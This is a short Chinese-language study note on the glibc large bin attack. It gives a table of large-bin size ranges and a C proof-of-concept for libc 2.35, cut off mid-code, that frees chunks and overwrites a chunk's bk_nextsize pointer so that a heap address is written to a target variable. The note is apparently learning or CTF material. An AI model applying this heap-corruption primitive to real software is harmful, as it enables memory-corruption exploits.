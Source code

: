 ‍1

- large bin

​​

表： 应该是 同属于哪一个bin

|----------------index--------------------|---------------size范围------------------|
| -----------------------------------------| -----------------------------------------|
|||
|64|[0x400,0x440) 相差0x40|
|65|[0x440,0x480)相差0x40|
|||
|......|......相差0x40|
|96|[0xc00,0xc40)相差0x40|
|97|[0xc40,0xe00)相差0x1c0|
|98|[0xe00,0x1000)相差0x200|
|......|......相差0x200|
|......|......|

‍

这个 large_bin_attack 攻击，个人认为就是往一个指定的`地址里写一个大的地址`​（heap_addr 或者 main_arena）

‍

‍

- libc.2.35

‍

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

int main(){
  setvbuf(stdin,NULL,_IONBF,0);
  setvbuf(stdout,NULL,_IONBF,0);
  setvbuf(stderr,NULL,_IONBF,0);


  size_t target = 0;

  size_t *p1 = malloc(0x428); // *

  size_t *g1 = malloc(0x18);


  size_t *p2 = malloc(0x418); // *

  size_t *g2 = malloc(0x18);

  free(p1); // *

  size_t *g3 = malloc(0x438); // *

  free(p2); // *

  p1[3] = (size_t)((&target)-4); // *

```